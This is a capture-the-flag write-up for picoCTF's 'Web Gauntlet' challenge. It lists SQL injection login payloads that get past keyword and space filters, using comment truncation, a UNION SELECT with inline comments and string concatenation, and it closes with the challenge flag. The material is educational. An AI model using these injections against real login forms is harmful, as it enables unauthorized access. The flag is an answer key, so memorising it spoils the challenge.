










# Web Gauntlet
### Points: 200

## Category
#### Web Exploitation

## Question
#### Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:29164/ http://jupiter.challenges.picoctf.org:29164/filter.php
### Hint
>#### 1. You are not allowed to login with valid credentials.
>#### 2. Write down the injections you use in case you lose your progress.
>#### 3. For some filters it may be hard to see the characters, always (always) look at the raw hex in the response.
>#### 4. sqlite
>#### 5. If your cookie keeps getting reset, try using a private browser window


## Solution
### Round 1
#### Look at this website main page http://jupiter.challenges.picoctf.org:29164/

#### Look at this website filter page http://jupiter.challenges.picoctf.org:29164/filter.php

```base
Username = admin' --
Password = a
```
### Round 2
#### Look at this website Round 2 page http://jupiter.challenges.picoctf.org:29164/index.php

#### Look at this website filter Round 2 page http://jupiter.challenges.picoctf.org:29164/filter.php

```base
Username = admin'/*
Password = a
```
### Round 3
#### Look at this website Round 2 page http://jupiter.challenges.picoctf.org:29164/index.php

#### Look at this website filter Round 2 page http://jupiter.challenges.picoctf.org:29164/filter.php


```base
Username = admin'/*
Password = a
```
### Round 4
#### Look at this website Round 2 page http://jupiter.challenges.picoctf.org:29164/index.php

#### Look at this website filter Round 2 page http://jupiter.challenges.picoctf.org:29164/filter.php


```base
Username = bob'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;
Password = a
```
### Round 5
#### Look at this website Round 2 page http://jupiter.challenges.picoctf.org:29164/index.php

#### Look at this website filter Round 2 page http://jupiter.challenges.picoctf.org:29164/filter.php


```base
Username = adm'||'in'/*
Password = a
```
#### Go to the filter.php page get tha flag.


## Flag
`picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}`